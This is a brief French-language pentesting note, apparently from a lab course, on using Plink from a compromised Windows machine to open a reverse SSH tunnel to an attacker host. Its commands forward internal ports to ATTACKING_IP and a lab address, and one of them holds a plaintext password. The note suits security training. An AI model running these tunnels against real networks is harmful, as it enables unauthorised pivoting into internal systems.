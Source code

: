 Il est peu probable que les serveurs Windows aient un serveur SSH en cours d'exécution. Notre utilisation de Plink a donc tendance à consister à transporter le binaire vers la cible, puis à l'utiliser pour créer une connexion inverse.

```sh
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT kali@ATTACKING_IP -i KEYFILE -N
```

> Si nous avons accès à `172.16.0.5` et souhaitons transférer une connexion vers `172.16.0.10:80` vers le port `8000` de notre propre machine attaquante (`172.16.0.20`), nous pourrions utiliser cette commande:

```sh
cmd.exe /c echo y | plink.exe -ssh -l kali -pw core -R 8000:172.16.0.10:80 172.16.0.20 -N
```

Ou avec la cle :

```sh
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i id_rsa.ppk -N
```

Notez que toutes les clés générées par `ssh-keygen` ne fonctionneront pas correctement ici.Vous devrez les convertir à l'aide de l'outil `puttygen`:

```sh
puttygen id_rsa -o id_rsa.ppk
```

Le fichier `.ppk` résultant peut ensuite être transféré vers la cible Windows et utilisé exactement de la même manière qu'avec la redirection de port inversée